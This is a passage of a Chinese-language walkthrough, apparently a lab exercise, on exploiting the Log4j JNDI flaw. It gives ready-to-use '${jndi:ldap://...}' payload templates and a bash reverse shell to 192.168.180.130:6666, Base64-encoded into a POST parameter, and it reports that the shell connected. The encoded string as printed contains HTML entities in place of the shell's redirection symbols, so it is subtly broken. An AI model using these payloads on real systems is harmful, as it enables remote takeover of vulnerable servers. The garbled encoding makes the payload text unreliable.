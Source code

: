 在该工具执行的基础上，构造payload。

```
${jndi:ldap://[ip]:1389/Basic/Command/[command]}
```
或
```
${jndi:ldap://[ip]:1389/Basic/Command/Base64/[base64_encoded_cmd]}
```
下面我选用的是后者base64编码的命令，base64编码的命令载荷在网络传输中有着命中率较高的优势。

Base64编码在线工具地址：http://tool.chinaz.com/tools/base64.aspx
```bash
bash -i >& /dev/tcp/192.168.180.130/6666 0>&1
```
经过base64编码放入参数中
```
c=${jndi:ldap://[ip]:1389/Basic/Command/Base64/YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xOTIuMTY4LjE4MC4xMzAvNjY2NiAwJmd0OyYyIA==}
```
向网页发送带有payload的post请求。

![log4j (10)](漏洞利用\log4j (10).png)

反弹shell成功。

<img src="漏洞利用\log4j (11).png" alt="log4j (11)" style="zoom: 61%;" />

<img src="漏洞利用\log4j (1).png" alt="log4j (1)" style="zoom: 50%;" />
